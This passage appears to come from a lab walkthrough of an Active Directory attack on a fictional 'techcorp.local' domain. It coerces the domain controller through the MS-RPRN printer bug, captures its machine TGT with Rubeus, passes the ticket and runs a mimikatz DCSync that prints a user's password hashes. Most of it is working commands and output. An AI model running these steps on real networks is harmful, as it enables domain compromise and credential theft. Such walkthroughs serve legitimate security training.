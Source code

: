 ```powershell

  v2.3.0

[*] Action: TGT Monitoring
[*] Target user     : us-dc$
[*] Monitoring every 5 seconds for new TGTs
```
- On our machine, we will use **MS-RPRN.exe** to trigger the MS-RPRN "printer bug" against the DC:
```powershell
PS C:\Auditor> .\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
```
- On `US-WEB` we can see that we have captured the TGT of the `us\us-dc$` domain machine account:
```powershell
<snip>

doIFvDCCB...
```
- We now have a TGT for the `us\us-dc$` account. Since this is a machine account and those accounts cannot be used to remotely access themselves, we can either abuse the S4U2Self Kerberos module to impersonate a high-privileged domain account on the domain controller and consequently compromise it, or import the TGT and execute a DCSync attack against the DC. This will allow us to dump domain accounts' credentials from the `ntds.dit`. For this attack we do not need to abuse S4U2self, since the TGT of the machine account `us\us-dc$` is sufficient.
```powershell
PS C:\Auditor> .\Rubeus.exe ptt /ticket:doIFv...

<snip>

PS C:\Auditor> .\mimikatz.exe

<snip>

mimikatz # lsadump::dcsync /user:decda /domain:us.techcorp.local
[DC] 'us.techcorp.local' will be the domain
[DC] 'US-DC.us.techcorp.local' will be the DC server
[DC] 'decda' will be the user account

Object RDN           : decda

** SAM ACCOUNT **

SAM Username         : decda
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/19/2019 11:16:05 AM
Object Security ID   : S-1-5-21-210670787-2521448726-163245708-1289
Object Relative ID   : 1289

Credentials:
  Hash NTLM: 068a0a7194f8884732e4f5a7cb47e17c
    ntlm- 0: 068a0a7194f8884732e4f5a7cb47e17c
    lm  - 0: f4c47f8d59894e3aafb8a5e30bfa87e8

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 904370f18b24552196ca8b95db809992

* Primary:Kerberos-Newer-Keys *
    Default Salt : US.TECHCORP.LOCALdecda
    Default Iterations : 4096
    Credentials
```